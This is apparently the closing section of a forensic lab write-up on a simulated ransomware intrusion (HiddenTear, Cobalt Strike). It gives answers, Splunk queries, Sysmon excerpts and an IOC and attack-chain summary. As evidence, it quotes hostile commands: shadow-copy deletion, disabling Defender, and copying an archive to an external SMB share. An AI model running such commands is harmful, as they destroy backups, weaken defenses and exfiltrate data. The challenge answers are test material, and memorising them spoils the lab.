Reason: Immediately before deploying the ransomware, the attacker executed `vssadmin delete shadows /all /quiet` on `DC01` as `NT AUTHORITY\SYSTEM` to silently delete all Volume Shadow Copies, which are Windows' built-in point-in-time backup snapshots, eliminating the primary native recovery mechanism and ensuring victims cannot restore encrypted files without paying the ransom. The `/quiet` flag suppresses confirmation prompts, and the command ran at `19:20:32`, approximately nine minutes before the ransomware executable `MammaMia_Marcello.exe` was launched at `19:28:14` (observed earlier). This activity maps to MITRE ATT&CK Technique `T1490` (Inhibit System Recovery).

```bash
index=* host="DC01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "*delete shadows*" EventCode=1
| table _time, CommandLine, ParentCommandLine, Image, User, IntegrityLevel

...
<TimeCreated SystemTime='2025-12-02T19:20:32.162770100Z'/>
<Data Name='RuleName'>technique_id=T1490,technique_name=Inhibit System Recovery</Data>
<Data Name='Image'>C:\Windows\System32\vssadmin.exe</Data>
<Data Name='CommandLine'>vssadmin  delete shadows /all /quiet</Data>
<Data Name='ParentCommandLine'>C:\Windows\system32\cmd.exe /C vssadmin delete shadows /all /quiet</Data>
...
```

Q29- The final payload was a ransomware executable deployed across all compromised systems. What was the name of this executable?

Answer: `MammaMia_Marcello.exe`

Reason: The final payload `MammaMia_Marcello.exe` was deployed across all compromised systems from `C:\Windows\Temp\` as the HiddenTear ransomware executable, launched nine minutes after Volume Shadow Copies were deleted (Q28) to eliminate any recovery path before encryption began. The executable was observed on `DC01` at `2025-12-02 19:28:14` spawned by `cmd.exe`, which was in turn launched by the persistent `rundll32.exe` beacon, confirming the ransomware deployment was orchestrated directly through the Cobalt Strike Command and Control (C2) channel. The name `MammaMia_Marcello.exe` is a threat actor signature, atypical for ransomware operators who usually use generic names, suggesting deliberate attribution or taunting. This activity maps to MITRE ATT&CK Technique `T1486` (Data Encrypted for Impact).

**HiddenTear** is an open-source ransomware proof-of-concept originally published in 2015 by Turkish developer Utku Sen for educational purposes. The source code leak led to numerous criminal variants over the years, and its continued appearance in real intrusions indicates either a low-sophistication actor reusing public code or a deliberate choice to complicate attribution by blending in with commodity ransomware noise.

```bash
index=* host="DC01" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 "MammaMia_Marcello.exe"
| table _time, Image, ParentImage, ParentCommandLine, User

...
<TimeCreated SystemTime='2025-12-02T19:28:14.852956700Z'/>
<Computer>DC01.corp.local</Computer>
<Data Name='RuleName'>technique_id=T1036,technique_name=Masquerading</Data>
<Data Name='Image'>C:\Windows\Temp\MammaMia_Marcello.exe</Data>
<Data Name='OriginalFileName'>Encryptor_v2.exe</Data>
<Data Name='CommandLine'>C:\Windows\Temp\MammaMia_Marcello.exe</Data>
<Data Name='ParentCommandLine'>C:\Windows\system32\cmd.exe /C C:\Windows\Temp\MammaMia_Marcello.exe</Data>
...
```

Q30- Understanding when a ransomware sample first appeared helps establish its timeline and potential impact. Based on VirusTotal data, what is the UTC timestamp of the first submission of this ransomware executable?

Answer: `2025-12-08 04:37:21`

Reason: The Secure Hash Algorithm 256-bit (SHA-256) hash extracted from System Monitor (Sysmon)'s process creation event for `MammaMia_Marcello.exe` was used to look up the sample on VirusTotal, revealing it was first submitted on `2025-12-08 04:37:21 UTC`, six days after the attack occurred on `2025-12-02`. This gap confirms the sample was previously unknown at the time of the attack, meaning no Antivirus (AV) or threat intelligence platform would have flagged it on the day of compromise. The Portable Executable (PE) header's `OriginalFileName` field (`Encryptor_v2.exe`) additionally confirms this is a HiddenTear variant that was renamed to `MammaMia_Marcello.exe` for masquerading purposes. This activity maps to MITRE ATT&CK Technique `T1036` (Masquerading), specifically `T1036.005` (Match Legitimate Name or Location) when considering the deceptive renaming.

The `OriginalFileName` field lives in the `VS_VERSION_INFO` resource of the Portable Executable (PE) header and is set at compile time by the developer. Because it is baked into the binary rather than derived from the filename on disk, defenders can use it to detect renamed payloads even when the surface filename is novel. In this case, the mismatch between the on-disk name `MammaMia_Marcello.exe` and the embedded `Encryptor_v2.exe` is itself a high-fidelity Indicator of Compromise (IOC).

**Sample metadata summary:**

SHA-256: `4A2DCB42B807E589D8CCBCA5CAD4C2B4B7C768CAA86D54FF1864065AFCE0D85B`
VirusTotal first submission: `2025-12-08 04:37:21 UTCOriginalFileName` (PE header): `Encryptor_v2.exe`
Deployed as: `MammaMia_Marcello.exe`

Q31- What is the Bitcoin address provided in the ransom note for payment?

Answer: `1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

Reason: The HiddenTear ransomware dropped `README_DECRYPT.txt` ransom notes across all compromised systems, demanding 50 Bitcoin (BTC) (approximately $2,000,000 United States Dollars (USD)) with a 72-hour payment deadline before the price doubled and a 7-day deadline before the decryption key was destroyed. The note was recovered from the Backup Server artifacts and contained the Bitcoin payment address `1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa`, Satoshi Nakamoto's genesis block address from January 3, 2009, the most recognized address in Bitcoin history whose coins have never moved. The lab author deliberately chose this address as a safe, recognizable Easter egg with no real-world ransomware association. Files were encrypted with the `.locked` extension on `2025-12-02 19:35:20`, confirming encryption completed approximately seven minutes after the ransomware executable launched. This activity maps to MITRE ATT&CK Technique `T1486` (Data Encrypted for Impact). The `.locked` extension is a common artifact of HiddenTear and its many forks. Because the original HiddenTear source code uses a hardcoded symmetric encryption key sent in plaintext to a Command and Control (C2) server, some early variants are decryptable without payment if the key transmission is captured. Modern criminal forks have largely fixed this weakness, but the `.locked` extension and `README_DECRYPT.txt` filename remain useful Indicators of Compromise (IOCs) for triage and family attribution.

**Artifact and ransom summary:**

Artifact path: `C:\Users\roby\AppData\Roaming\Microsoft\Windows\Recent\README_DECRYPT.txt`
Host: `BACKUP01`
Bitcoin address: `1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa` (Satoshi genesis block address)
Ransom: 50 BTC (approximately $2,000,000 USD)
File extension: `.locked`
Encryption timestamp: `2025-12-02 19:35:20`
Machine Identifier (ID): `BACKUP01-99CE3017`

```bash
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11 "README_DECRYPT.txt"
| table _time, host, TargetFilename, Image, User
```

# Lab Summary

## Environment

| Property | Value |
| --- | --- |
| Hosts | WORKSTATION-01 (`10.10.11.247`), DC01, FS01, BACKUP01 |
| Domain | `corp.local` |
| Initial Victim | `CORP\\ncooper` on WORKSTATION-01 |
| Log Sources | Sysmon (EID 1/3/7/8/10/11/15/17), Security (4624/4627/4720/4769), PowerShell (4103), System (7045), Splunk |

## Attacker Infrastructure

| Role | Value |
| --- | --- |
| C2 Server | `3.79.56.148:80` — HTTP beaconing via `rundll32.exe` (425,229 connections) |
| Exfiltration Server | `3.120.129.182` — SMB share `\\\\3.120.129.182\\share\\` |
| Payload CDN | `edge15.82.ir.cdn.ir` — piracy site `soft98.ir` |

## IOCs

### Files

| Path | Note |
| --- | --- |
| `C:\\Users\\ncooper\\Downloads\\Sharp.World.Clock.9.6.7.rar` | Initial malicious archive |
| `C:\\Users\\ncooper\\AppData\\Roaming\\WorldClock.exe` | Dropped by trojanized installer |
| `C:\\Users\\ncooper\\Music\\WakeWordEngine.dll` | Malicious DLL, initial implant |
| `C:\\Users\\Public\\Music\\WakeWordEngine.dll` | Persistence copy |
| `C:\\Windows\\Temp\\winupdate.exe` | Malicious service binary on FS01 |
| `C:\\Windows\\Temp\\svchost.dll` | Cobalt Strike beacon DLL on DC01 |
| `C:\\Windows\\Temp\\syscheck.exe` | Renamed SharpHound |
| `C:\\Windows\\Temp\\ADFind.exe` | AD enumeration tool |
| `C:\\Windows\\Temp\\MammaMia_Marcello.exe` | HiddenTear ransomware (`OriginalFileName`: `Encryptor_v2.exe`) |
| `C:\\Users\\Public\\npoived.zip` | Staged exfiltration archive (timestomped to 2036-01-01) |

### Hashes

| File | SHA256 |
| --- | --- |
| `Sharp.World.Clock.9.6.7.rar` | `3767CE9852EA45D2C605E8941E24D50A159C0377B4C346D16585570E1E486930` |
| `WakeWordEngine.dll` | `0C1A20B225DAA295C4CFD609884AFAD10C301FF56241500B82B35104240904F1` |
| `MammaMia_Marcello.exe` | `4A2DCB42B807E589D8CCBCA5CAD4C2B4B7C768CAA86D54FF1864065AFCE0D85B` |

### Accounts and Credentials

| Host | Account | Password | Purpose |
| --- | --- | --- | --- |
| WORKSTATION-01 | `SvcAdmin` | `Qwerty12345!` | Backdoor local admin + RDP |

### Ransomware

| Property | Value |
| --- | --- |
| Family | HiddenTear |
| Extension | `.locked` |
| Encryption Timestamp | `2025-12-02 19:35:20` |
| Bitcoin Address | `1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa` (Satoshi genesis block — lab Easter egg) |
| Ransom | 50 BTC (~$2,000,000 USD) |
| First VT Submission | `2025-12-08 04:37:21 UTC` (6 days after attack) |

## Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2025-12-02 13:56 | Initial Access | `ncooper` downloaded `Sharp.World.Clock.9.6.7.rar` from `edge15.82.ir.cdn.ir` | T1189 |
| 2025-12-02 14:00 | Execution | `world_clock_setup.exe` dropped `WorldClock.exe`, spawned `cmd.exe > MSBuild.exe` | T1204.002, T1127.001 |
| 2025-12-02 14:00 | Execution | `rundll32.exe` loaded `WakeWordEngine.dll` from `C:\\Users\\ncooper\\Music\\` | T1574.002 |
| 2025-12-02 14:05 | C2 | `chcp 437` auto-executed — Cobalt Strike session indicator | T1059.003 |
| 2025-12-02 14:22 | Defense Evasion | `Set-MpPreference -DisableRealtimeMonitoring $true` | T1562.001 |
| 2025-12-02 14:31 | Defense Evasion | DLL injected into `explorer.exe` | T1055.001 |
| 2025-12-02 14:42 | Persistence | Scheduled task `SystemUpdate` — `rundll32.exe WakeWordEngine.dll,Start` on logon | T1053.005 |
| 2025-12-02 14:45 | Credential Access | LSASS dumped by `rundll32.exe` (GrantedAccess `0x1010`) | T1003.001 |
| 2025-12-02 15:22 | Lateral Movement | Logon Type 9 credential handoff | T1550 |
| 2025-12-02 15:31 | Lateral Movement | PsExec to DC01 (`2b0e02b.exe`) | T1021.002 |
| 2025-12-02 15:35 | Discovery | Port scan of 12 ports against `10.10.11.249` via `rundll32.exe` | T1046 |
| 2025-12-02 15:50 | Discovery | SharpHound (`syscheck.exe -c All`) run from DC01 | T1087.002 |
| 2025-12-02 16:00 | Discovery | ADFind enumerated users and computers from DC01 | T1087.002 |
| 2025-12-02 16:50 | C2 | Beacon injected into `spoolsv.exe` and `dwm.exe` on DC01 | T1055 |
| 2025-12-02 17:00 | Persistence | WMI subscription `WindowsUpdateCheck` / `WindowsUpdateConsumer` on DC01 | T1546.003 |
| 2025-12-02 17:33 | Lateral Movement | `PsExec` to FS01 (`7ab3ee3.exe`) | T1021.002 |
| 2025-12-02 17:42 | Collection | `Compress-Archive` staged Finance, Legal, HR, Executive, Contracts to `npoived.zip` | T1560.001 |
| 2025-12-02 17:45 | Defense Evasion | `npoived.zip` timestomped to `2036-01-01` | T1070.006 |
| 2025-12-02 17:56 | Persistence | Service `WindowsUpdateService` pointing to `winupdate.exe` on FS01 | T1543.003 |
| 2025-12-02 18:11 | Exfiltration | `copy npoived.zip \\\\3.120.129.182\\share\\` | T1048.003 |
| 2025-12-02 18:22 | Lateral Movement | Golden Ticket (`0x17` RC4) targeting `BACKUP01$` | T1558.001 |
| 2025-12-02 18:37 | Credential Access | Veeam credentials extracted via `hapsgdsgd.ps1` + `Veeam.Backup.Common.dll` | T1555 |
| 2025-12-02 19:20 | Impact | `vssadmin delete shadows /all /quiet` on DC01 | T1490 |
| 2025-12-02 19:28 | Impact | `MammaMia_Marcello.exe` deployed across all hosts | T1486 |
| 2025-12-02 19:35 | Impact | Encryption complete — `.locked` extension applied | T1486 |

# Forensic Timeline


